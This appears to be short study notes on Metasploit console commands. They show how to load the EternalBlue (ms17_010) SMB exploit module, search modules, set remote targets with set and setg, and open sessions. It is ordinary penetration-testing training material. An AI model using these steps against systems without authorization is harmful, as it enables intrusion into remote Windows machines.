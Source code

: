 msfconsole
ls 
ping -c 5 8.8.8.8
clear
history
back
`use exploit/windows/smb/ms17_010_eternalblue`
show options
show payloads
info
search ms17-010
search type:auxiliary ms17-010
set rhosts [remote_ip]
unset all - remove previously set rhost
You can use the `setg` command to set values that will be used for all modules. The `setg` command is used like the set command. The difference is that if you use the `set` command to set a value using a module and you switch to another module, you will need to set the value again. The `setg` command allows you to set the value so it can be used by default across different modules. You can clear any value set with `setg` using `unsetg`.
setg rhost [remote_ip]
unsetg all
After setting up rhosts, lport, etc. Run sessions
sessions -i 1 or 2 (whichever session we want to use)
